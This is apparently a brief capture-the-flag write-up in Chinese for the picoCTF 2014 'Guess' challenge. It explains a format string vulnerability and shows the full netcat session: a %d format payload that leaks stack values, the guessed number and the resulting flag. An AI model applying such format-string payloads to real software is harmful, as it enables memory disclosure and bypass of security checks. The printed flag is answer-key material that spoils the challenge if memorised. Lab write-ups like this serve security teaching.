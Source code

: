 # Guess
看原始碼，發現有 *format string vulnerability*，那麼只要印出stack裡的數值，一個一個猜就行了
## Solve
```bash
$ nc vuln2014.picoctf.com 4546
Hello! What is your name?
%d.%d.%d.%d.%d.%d
Welcome to the guessing game, 32.-142918624.156700680.-658156941.47.156700680

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
-658156941
Wow! You guessed it!
Your flag is: leak_the_seakret
```
